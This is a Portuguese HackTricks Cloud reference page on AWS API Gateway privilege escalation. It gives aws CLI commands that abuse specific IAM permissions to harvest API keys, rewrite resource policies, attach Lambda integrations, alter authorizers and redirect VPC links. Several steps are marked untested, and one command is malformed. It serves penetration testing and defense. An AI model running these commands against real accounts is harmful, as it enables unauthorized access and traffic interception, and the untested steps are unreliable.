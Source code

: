 # AWS - Apigateway Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Apigateway

Para mais informações, consulte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Com essa permissão, você pode gerar chaves de API das APIs configuradas (por região).
```bash
aws --region <region> apigateway create-api-key
```
**Impacto Potencial:** Você não pode realizar privesc com esta técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:GET`

Com esta permissão, você pode obter chaves de API geradas das APIs configuradas (por região).
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impacto Potencial:** Você não pode realizar privesc com esta técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Com essas permissões, é possível modificar a política de recursos de uma API para conceder a si mesmo acesso para chamá-la e abusar do acesso potencial que o gateway da API pode ter (como invocar um lambda vulnerável).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impacto Potencial:** Geralmente, você não conseguirá privesc diretamente com esta técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necessita de testes
{% endhint %}

Um atacante com as permissões `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` pode **adicionar uma nova integração a uma API Gateway REST API existente com uma função Lambda que possui uma IAM role anexada**. O atacante pode então **acionar a função Lambda para executar código arbitrário e potencialmente obter acesso aos recursos associados com a IAM role**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Acesso a recursos associados com a função IAM do Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necessita de testes
{% endhint %}

Um atacante com as permissões `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` pode **modificar um autorizador de API Gateway existente** para contornar verificações de segurança ou para executar código arbitrário quando solicitações de API são feitas.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Bypass de verificações de segurança, acesso não autorizado a recursos da API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necessita de teste
{% endhint %}

Um atacante com a permissão `apigateway:UpdateVpcLink` pode **modificar um VPC Link existente para apontar para um Network Load Balancer diferente, potencialmente redirecionando o tráfego privado da API para recursos não autorizados ou maliciosos**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impacto Potencial**: Acesso não autorizado a recursos privados da API, interceptação ou interrupção do tráfego da API.

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
